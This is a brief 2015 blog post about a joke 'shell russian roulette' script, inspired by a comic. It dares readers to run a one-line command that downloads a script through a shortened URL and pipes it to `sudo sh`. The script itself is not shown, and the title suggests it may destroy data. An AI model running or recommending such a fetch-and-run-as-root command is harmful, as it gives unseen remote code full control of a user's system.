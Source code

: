 ```yaml
---
title: "Shell russian roulette"
tags: "shell,Рекомендую"
date: "2015-12-16"
---
```


Inspired by this comics

[![Strip-Roulette-russe-650-finalenglish](images/Strip-Roulette-russe-650-finalenglish.jpg)](https://stepansuvorov.com/blog/wp-content/uploads/2015/12/Strip-Roulette-russe-650-finalenglish.jpg)

I decided to make it even more simple and put script on [github](https://github.com/stevermeister/sh/blob/master/russian-roulette.sh).

Would you dare to play?

```
curl -L https://tinyurl.com/r0u1ette| sudo sh
```

